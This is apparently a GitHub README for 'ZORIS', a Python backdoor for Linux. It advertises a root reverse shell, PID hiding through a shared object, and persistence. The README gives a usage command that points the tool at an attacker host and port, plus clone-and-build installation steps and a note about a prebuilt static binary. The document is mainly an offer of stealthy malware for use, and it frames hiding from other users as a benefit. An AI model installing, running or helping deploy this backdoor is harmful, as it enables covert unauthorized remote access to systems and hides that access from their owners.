 <h1 align="center">「🚪」ZORIS</h1>

<p align="center"><img src="assets/1.png"></p>

<p align="center">ZORIS is a simple backdoor created in python in order to bring the shell of a linux system to a machine through the reverse connection, but make no mistake, ZORIS has a shared object (so) that allows you to hide the PID of the backdoor installed on the system, keeping it out of sight of other users inside the machine and being silent. It is necessary to be the root user, but by activating it, its persistence is certain.</p>

### Benefits:

* Reverse shell connection as root

* Hide the PID

* Persistence

## Tested linux distro

- [x] Arch Linux
- [X] CentOS
- [X] Debian
- [ ] Fedora
- [ ] openSUSE
- [ ] Gentoo

## How to use

<p align="center"><img src="assets/2.png"></p>

```
# ./zoris -rh <ATTACKER HOST> -rp <ATTACKER PORT>
```

## Installation

```
# git clone https://github.com/Brosck/zoris.git
# chmod +x build.sh
# ./build.sh
```

Note: If you prefer, we have the ZORIS static binary in the ```static``` directory with all dependencies inserted.

## Available architecture of static binary

- [x] amd64
- [ ] i386
- [ ] arm64
- [X] armv7


